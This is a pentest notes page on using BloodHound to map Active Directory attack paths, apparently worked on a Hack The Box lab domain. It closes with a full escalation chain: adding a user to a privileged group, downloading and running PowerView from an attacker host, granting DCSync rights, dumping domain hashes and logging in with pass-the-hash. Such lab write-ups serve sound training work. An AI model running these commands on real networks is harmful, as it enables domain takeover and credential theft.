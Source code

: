 # Common Usage

1. Collect the zip file and start the neo4j server with bloodhound.\
   &#xNAN;_&#x52;efer to_ [_AD Attack Surface Recon_ ](../ad-attack-recon.md)_section._&#x20;
2. (Clear previous session and database) Select a menu, scroll down to the bottom, and click on "Clear sessions" and "Clear Database".

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

3. Look at the list of menue at the right side, and select "Upload Data" menu. Select the zip file.&#x20;

![](<../../.gitbook/assets/image (51).png>)&#x20;

4. This will automatically import the zip file and parse the information for you to analyze.

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

5. Let's select settings at the right menu. You may want to adjust some settings here. You may need to enable Edge Label Display to Always Display, for example.&#x20;

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

5. Let's go to Analysis menu and see anything you can leverage built-in rules.&#x20;

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

* SVC-ALFRESCO is a member of SERGICE ACCOUNT group, which is a member of PRIVILEGED IT ACCOUNT group, which is a member of ACCOUNT OPERATORS group.&#x20;
* The ACCOUNT OPERATORS group has 'GenericAll' privilege to EXCHANGE WINDOWS PERMISSIONS group.&#x20;
* The EXCHANGE WINDOWS PERMISSIONS group has 'WriteDACL" privilege to the HTB.LOCAL domain.&#x20;
* HTB.LOCAL domain has 'DCSync' privilege to other Domains.&#x20;

6. When you right click on one of the privilege names (for example, GenericAll below) and select "? Help", you will see more info on the privilege and abuse you can try.&#x20;

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

7. What you could do based on the info on the privileges of GenericAll and WriteDACL above.&#x20;
   1. GenericAll known as full control of a group allows you to directly modify group membership of the group.
   2. With WriteDACL to a domain object, you may grant yourself DCSync privileges.
8. Your final commands look like below.&#x20;

{% code overflow="wrap" %}
```bash
# Add a new user to 'Exchange Windows Permissions" group
PS> net user iptracej iptracej /add /domain
PS> net group "exchange windows permissions" /add iptracej
PS> net group "exchange windows permissions"

# Assume that you have powershell session. 
PS> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/privesc/PowerView.ps1')

PS> $SecPassword = ConvertTo-SecureString 'iptracej' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('htb\iptracej', $SecPassword)

PS> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdenti
ty iptracej -Rights DCSync

Kali> impacket-secretsdump htb.local/iptracej:iptracej@10.10.10.161 

Kali> psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

```
{% endcode %}
